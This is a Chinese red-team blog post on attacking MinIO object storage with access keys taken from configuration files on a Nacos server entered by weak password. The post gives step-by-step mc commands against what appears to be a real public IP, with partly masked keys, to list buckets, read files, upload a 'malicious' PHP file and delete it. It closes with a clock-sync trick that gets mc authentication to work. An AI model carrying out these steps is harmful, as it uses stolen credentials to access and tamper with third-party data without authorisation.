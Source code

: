 ```yaml
---
title: 【Minio】云存储服务接口攻击技巧
date: 2025-10-15
categories:
  - 红队
image: images/95.webp
---
```

# 0x00 介绍
Minio是一款高性能的对象存储服务，支持Amazon S3云存储服务接口。
# 0x01 攻击条件
当我们挖掘nacos漏洞时，使用弱口令进入到系统后，这里会有很多配置文件，这些配置文件会记录一些敏感信息。
敏感信息如下：
```
rabbit
redis
mysql
minio
ak/sk
```
# 0x02 条件
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015164434.png)

# 0x03 利用
如何利用起来呢？
这里就说一下minio怎么进行攻击利用。
首先我们需要先安装一下mc工具
这里我直接使用kali进行安装
```bash
wget https://dl.min.io/client/mc/release/linux-amd64/mc
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015160937.png)
赋予执行权限并移动到系统路径
```bash
chmod +x mc          # 赋予可执行权限
sudo mv mc /usr/local/bin/  # 移动到系统 PATH 路径，方便全局调用
```
验证安装
```bash
mc --version
# 示例输出：mc version RELEASE.2024-05-08T17-11-57Z (commit-id=...)
```
安装完成后，即可在 Kali 终端中执行你提供的命令：
```
mc alias set my-minio http://125.34.90.154:9000 PWjVFMxxxxkakthh Lm4I01IQd5OX1xxxxx45UlascuH
```
这条命令怎么来的呢？
```php
set my-minio：设置一个名字
http://125.34.90.154:9000：路径
PWjVFxxxMkakthh：access-key
Lm4I01IQd5OXxxxscuH：secret-key
```
这里可以看到nacos里的配置：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015162657.png)
如果所有配置正常这里会回显成功。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015162848.png)
如果配置错误这里也会显示错误提示。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015162911.png)
看一下这个里面有什么文件，可以看到这里有4个文件夹。
```
mc ls my-minio/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015162954.png)
然后我们先看第一个文件夹里面有什么数据：
```
mc ls my-minio/solicitation
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163102.png)
然后再随便跟一个文件夹，看一下有什么东西没：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163147.png)
可以看到有一个1.png文件。
然后直接访问这个路径，记得把my-minio删掉，发现可以直接显示图片。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163244.png)
然后我们尝试是否能文件上传到桶里面：
首先创建一个文件。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163414.png)
上传恶意文件
这里你可以随便上传到哪里，反正有目录了。
```
mc cp test.php my-minio/solicitation/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163558.png)
可以看到已经上传成功了。
访问一下这个路径，
```
solicitation/test.php
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163649.png)
发现直接下载，并没有解析。
删除
```
mc rm --force test.php
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015163856.png)
# 0x04 绕过技巧
```
SERVER_TIME=$(curl -s -I "[http://127.0.0.1:9000"](http://125.34.90.154:9000/") | grep -i "date:" | cut -d':' -f2- | sed 's/^ *//'); sudo date -s "$SERVER_TIME" && ./mc ls my-minio/solicitation
这个命令主要是绕过/mc ls my-minio/solicitation可以在这个地方添加命令。
如果你仔细的情况下可以观察到：SERVER_TIME=$(curl -s -I "[http://127.0.0.1:9000"](http://125.34.90.154:9000/") | grep -i "date:" | cut -d':' -f2- | sed 's/^ *//'); sudo date -s "$SERVER_TIME" 前面无论如何都是这种命令，因为帮助我们绕过，后面只需跟&& 然后mc基础命令即可。
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251015164235.png)
